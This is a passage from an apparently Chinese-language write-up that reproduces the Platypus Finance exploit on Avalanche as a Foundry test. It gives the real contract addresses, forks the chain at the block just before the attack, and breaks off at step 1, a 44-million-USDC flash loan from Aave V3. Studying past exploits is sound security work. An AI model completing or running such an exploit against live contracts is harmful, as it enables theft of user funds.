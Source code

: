```solidity
        bool _open
    ) external view returns (bool solvent, uint256 debtAmount) ;
    function positionView(address _user, address _token) external view returns (PositionView memory);
    /// @notice A struct to preview a user's collateral position; external view-only
    struct PositionView {
        uint256 collateralAmount;
        uint256 collateralUSD;
        uint256 borrowLimitUSP;
        uint256 liquidateLimitUSP;
        uint256 debtAmountUSP;
        uint256 debtShare;
        uint256 healthFactor; // `healthFactor` is 0 if `debtAmountUSP` is 0
        bool liquidable;
    }
}
```

- 这里就用的Token和接口实例

```solidity
contract ContractTest is Test{
    AaveV3Pool aaveV3Pool = AaveV3Pool(0x794a61358D6845594F94dc1DB02A252b5b4814aD);

    IERC20 USDC = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
    IERC20 USDC_e = IERC20(0xA7D7079b0FEaD91F3e65f86E8915Cb59c1a4C664);
    IERC20 USDT = IERC20(0x9702230A8Ea53601f5cD2dc00fDBc13d4dF4A8c7);
    IERC20 USDT_e = IERC20(0xc7198437980c041c805A1EDcbA50c1Ce5db95118);
    IERC20 BUSD = IERC20(0x9C9e5fD8bbc25984B178FdCE6117Defa39d2db39);
    IERC20 DAI_e = IERC20(0xd586E7F844cEa2F87f50152665BCbc2C279D8d70);
    ILP_USDC LP_USDC = ILP_USDC(0xAEf735B1E7EcfAf8209ea46610585817Dc0a2E16);
    IUSP USP = IUSP(0xdaCDe03d7Ab4D81fEDdc3a20fAA89aBAc9072CE2);

    PlatypusPool platypusPool = PlatypusPool(0x66357dCaCe80431aee0A7507e2E361B7e2402370);

    MasterPlatypusV4 masterPlatypusV4 = MasterPlatypusV4(0xfF6934aAC9C94E1C39358D4fDCF70aeca77D0AB0);
    PlatypusTreasure platypusTreasure = PlatypusTreasure(0x061da45081ACE6ce1622b9787b68aa7033621438);//这里应该是proxy的地址


    function setUp() public {
        vm.createSelectFork('Avalanche', 26343614 - 1);
    }
}
```

## 开始开始POC逻辑

### - step1：从 aaveV3，闪电贷 44,000,000个USDC

